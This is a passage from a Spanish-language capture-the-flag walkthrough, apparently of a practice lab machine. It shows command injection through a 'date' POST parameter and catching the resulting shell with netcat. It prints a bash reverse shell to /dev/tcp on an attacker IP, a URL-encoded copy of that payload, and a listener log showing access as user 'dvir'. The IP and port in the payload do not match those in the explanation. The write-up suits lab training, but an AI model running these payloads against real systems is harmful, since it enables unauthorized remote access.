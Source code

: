 Alternativa de reverse shell:

```html
bash -c "bash -i >& /dev/tcp/10.10.16.19/443 0>&1"
```

**Nota:** usar `ctrl+u` para URLenodear y enviar una cadena que pueda interpretar

```html
%20%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%31%39%2f%34%34%33%20%30%3e%26%31%22
```
#### Respuesta:

Acceso concedido al **dashboard de administración** de la aplicación.

#### Explicación:

Se utiliza el parámetro `date` en la solicitud POST para ejecutar un comando en el servidor que abre una reverse shell a nuestra máquina atacante (IP 10.10.16.9, puerto 4444). Se aprovecha el espacio en la URL, que es codificado con `+` usando `urlencode` (se puede hacer con BurpSuite mediante `ctrl+u`).

---

### Paso 2: Recepción de la reverse shell

#### Acción:

Utilizamos `nc` (Netcat) para escuchar la conexión de la reverse shell.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.8] 41798
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
whoami
dvir
```

#### Respuesta:

Se recibe la shell y se obtiene el control sobre el sistema como el usuario `dvir`.

#### Explicación:

Mediante `nc`, escuchamos la conexión de la reverse shell que es lanzada por el servidor víctima, obteniendo acceso a la máquina como el usuario `dvir`. La shell proporciona acceso al sistema, permitiéndonos ejecutar comandos.

---

### Paso 3: Mejora de la shell (tty)

#### Acción: [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva)
